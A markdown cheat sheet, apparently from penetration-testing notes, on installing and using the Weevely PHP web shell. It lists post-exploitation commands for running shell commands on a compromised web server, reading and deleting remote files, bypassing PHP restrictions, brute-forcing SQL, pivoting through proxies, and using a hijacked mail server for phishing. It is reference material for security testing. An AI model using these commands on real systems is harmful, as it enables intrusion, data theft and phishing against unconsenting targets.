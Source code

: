 ```yaml
---
author(s):
  - Userware
tags:
  - webapp-pentesting
  - initial-access
  - post-exploitation
  - webshell
  - weevely
---
```

# Weevely

## 01 - Setup

### 1.1 - Dependencies

Install the required dependencies according to your package manager.

```
$ sudo apt install -y python3-prettytable python3-mako python3-yaml python3-dateutil python3-pysocks python3-openssl
```

### 1.2 - Install Weevely

Install `weevely` according to your package manager.

```
$ sudo apt install -y weevely

$ yay -S weevely
```

Clone the repository

```
$ git clone https://github.com/epinna/weevely3.git /opt/webshells/weevely/
```

# 02 - Basic Commands

## 2.1 - Execute

Using `:shell_sh` to execute commands

```
weevely> shell_sh -h
usage: shell_sh [-h] [-stderr_redirection STDERR_REDIRECTION] [-vector {system,passthru,shell_exec,exec,popen,proc_open,python_eval,perl_system,pcntl}]
                command [command ...]

Execute shell commands.

positional arguments:
  command               Shell command

optional arguments:
  -h, --help            show this help message and exit
  -stderr_redirection STDERR_REDIRECTION
  -vector {system,passthru,shell_exec,exec,popen,proc_open,python_eval,perl_system,pcntl}
```

```
www-data@172.28.128.8:/var/www/phpMyAdmin $ shell_sh ls
CREDITS
ChangeLog
Documentation.html
Documentation.txt
INSTALL
LICENSE
..[omitted]..
user_password.php
view_create.php
webapp.php
```

```
:shell_php                    Execute PHP commands.
:shell_su                     Execute commands with su.
```

- [Weevely: Bypass PHP Long Running Tasks Limits](https://github.com/epinna/weevely3/wiki/Bypass-PHP-Long-Running-Tasks-Limits)

## 2.3 - File Manipulation

TODO: Fill this info

```
:file_grep                    Print lines matching a pattern in multiple files.
```

```
:file_read                    Read remote file from the remote filesystem.
:file_cp                      Copy single file.
:file_edit                    Edit remote file on a local editor.

:file_rm                      Remove remote file.
```

```
 :audit_disablefunctionbypass  Bypass disable_function restrictions with mod_cgi and .htaccess.

 :file_mount                   Mount remote filesystem using HTTPfs.
```

Uses the `find` command.

```
weevely> :file_find                    Find files with given names and attributes.
```

```
weevely> :bruteforce_sql               Bruteforce SQL database.
```

Press `CTRL + D` to escape SQL console.

```
weevely> :sql_console -user <username> -passwd <password> -host <IP>
```

Compromise a mail server to send phishing/spearphishing emails to the target.

```
weevely> :net_mail
```

Perform HTTP request with cURL-like command.

```
weevely> :net_curl <URL>
```

```
weevely> :set proxy <schema_proxy_type>://<pivot_IP>:<pivot_port>
```

```
weevely> :set proxy socks5://127.0.0.1:9050

weevely> :system_info -info client_ip
```

Unset the SOCKS proxy server when it's done.

```
weevely> :unset proxy
```

https://github.com/epinna/weevely3/wiki/HTTP,-SOCKS-proxies,-and-TOR-support

# 06 - HTTP Proxy

Install PHP proxy on the target.

```
weevely> :net_phpproxy
```

Navigate in your web browser with this specific link `http://weevely`. Then install the certificate to tunnel through your web browser.

Run local proxy to pivot HTTP/HTTPS browsing through the target.

```
weevely> :net_proxy
```

---
## References

### Source Repositories

- [epinna: weevely3](https://github.com/epinna/weevely3)

### Weevely

- [Weevely: Proxy HTTP and HTTPS traffic](https://github.com/epinna/weevely3/wiki/Proxy-HTTP-and-HTTPS-traffic)